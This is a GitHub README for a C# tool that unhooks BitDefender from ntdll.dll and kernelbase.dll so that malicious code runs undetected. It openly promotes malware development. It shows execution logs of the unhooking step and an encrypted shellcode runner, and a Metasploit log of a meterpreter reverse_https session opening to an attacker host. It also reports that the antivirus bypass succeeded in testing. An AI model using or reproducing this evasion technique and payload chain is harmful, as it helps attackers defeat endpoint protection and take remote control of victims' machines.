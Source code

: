 # Unhook Bit Defender
A C# application that unhooks **BitDefender** from **ntdll.dll** and **kernelbase.dll** to help run malicious code undetected.

The code is quite long (particularly the native Win32 structs), and I'm sure it could be optimised.

# Introduction
This C# code is based upon one of the techniques demonstrated in the RED TEAM Operator: Windows Evasion Course from [Sektor7](https://institute.sektor7.net), the original is written in C/C++. I would recommend any of the malware development courses, there is a lot of great stuff to learn about creating malware in C/C++.

When Windows creates a new process BitDefender injects the **atcuf64.dll** DLL into the process and hooks many of the **ntdll.dll/kernelbase.dll** functions. If, for example, `NtCreateProcess` is called by malicious code BitDefender is able to intercept the call, do it's anti-malware magic, then return execution to the thread (or kill the process if it is malicious).

The code maps another version of a DLL in memory, finds the `.text` section, and copies it over the hoooked version.

The code has been updated so you can map and unhook any DLL in memory.

# Proof of Concept in x64dbg

The following image shows the `ZwCreateProcess` function when BitDefender is not present:

![No Bit Defender](https://github.com/plackyhacker/UnhookBitDefender/blob/main/NoBitDef.png?raw=true)


The following image shows the `ZwCreateProcess` function when Bit Defender has hooked into **ntdll.dll**. We can see the `jmp` instruction (this is the hook):

![No Bit Defender](https://github.com/plackyhacker/UnhookBitDefender/blob/main/BitDefHooks.png?raw=true)


And finally, this image shows the `ZwCreateProcess` function after being unhooked (the `jmp` instruction has been reverted back to the normal syscall):

![No Bit Defender](https://github.com/plackyhacker/UnhookBitDefender/blob/main/BitDefUnhooked.png?raw=true)


# Example
 
Execution of the code is shown below:

```
[+] Mapping Ntdll...
[+] Unhooking Ntdll...
[+] Original Dll address is 0x7FFE23450000
[+] Mapped Dll address is 0x2396A520000
[+] Mapped Dll is a valid image.
[+] e_lfanew equals 0xE8
[+] NT_HEADERS address is 0x2396A5200E8
[+] Mapped Dll NT Headers is valid.
[+] Sections to enumerate is 10
[+] First section is .text
[+] First section is at 0x2396A5201F0
[+] Analysing section .text
[+] .text section is at 0x2396A5201F0
[+] VirtualProtect Dll to PAGE_EXECUTE_READWRITE...
[+] Unhooking Dll by copying mapped data...
[+] VirtualProtect Dll to PAGE_EXECUTE_WRITECOPY...
[+] Unmapping view of Dll...

[+] Mapping Kernelbase...
[+] Unhooking Kernelbase...
[+] Original Dll address is 0x7FFE20CB0000
[+] Mapped Dll address is 0x2396A520000
[+] Mapped Dll is a valid image.
[+] e_lfanew equals 0xF0
[+] NT_HEADERS address is 0x2396A5200F0
[+] Mapped Dll NT Headers is valid.
[+] Sections to enumerate is 7
[+] First section is .text
[+] First section is at 0x2396A5201F8
[+] Analysing section .text
[+] .text section is at 0x2396A5201F8
[+] VirtualProtect Dll to PAGE_EXECUTE_READWRITE...
[+] Unhooking Dll by copying mapped data...
[+] VirtualProtect Dll to PAGE_EXECUTE_WRITECOPY...
[+] Unmapping view of Dll...

[+] Shellcode runner...
[+] Decrypting payload...
[+] VirtualAlloc...
[+] RtlMoveMemory...
[+] VirtualProtect (PAGE_NOACCESS)...
[+] Sleeping...
[+] VirtualProtect (PAGE_EXECUTE_READ)...
[+] ResumeThread...
```

And the magical meterpreter session:

```
msf6 exploit(multi/handler) >
[*] Started HTTPS reverse handler on https://192.168.1.228:443
[*] https://192.168.1.228:443 handling request from 192.168.1.142; (UUID: dqyy0qcu) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.228:443 -> 192.168.1.142:59384) at 2021-10-11 08:21:51 +010
```

# Notes
~~I haven't tested the code with anything malicious yet to see if it bypasses BitDefender. I will post my findings when I do.~~

~~I tested this against Bit Defender with a very basic `Virtualalloc`, `RtlMoveMemory`, `VirtualProtect`, `CreateThread` classic combo (with an encrypted payload). Bit Defender didn't detect anything malicious on disk (with scanning) but did kill the process when `CreateThread` was called. ~~

The code was updated to unhook any loaded DLL. Unhooking **ntdll.dll** and **kernelbase.dll** bypasses Bit Defender in my tests.

Tested with windows/x64/meterpreter/reverse_https on Windows 10 Pro (build 10.0.19043) with BitDefender AntiVirus Free Edition.
